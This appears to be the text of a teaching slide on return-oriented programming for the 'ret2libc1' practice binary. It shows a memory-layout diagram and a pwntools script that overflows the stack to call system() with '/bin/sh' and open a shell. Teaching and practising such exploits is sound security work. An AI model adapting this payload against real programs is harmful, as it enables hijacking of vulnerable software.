

返回导向编程 | ret2libc1
For Kernel

Heap
Data

Unused
ret_addr = gadget_addr
Stack
from pwn import *

io = process("./ret2libc1")

binsh_addr = 0x08048720
system_plt = 0x08048460

payload = flat([b'A'*112, system_plt, b'B'*4, binsh_addr])
io.sendline(payload)
io.interactive()
Libc
system()
Bss
gadget
Text
gadget
gadget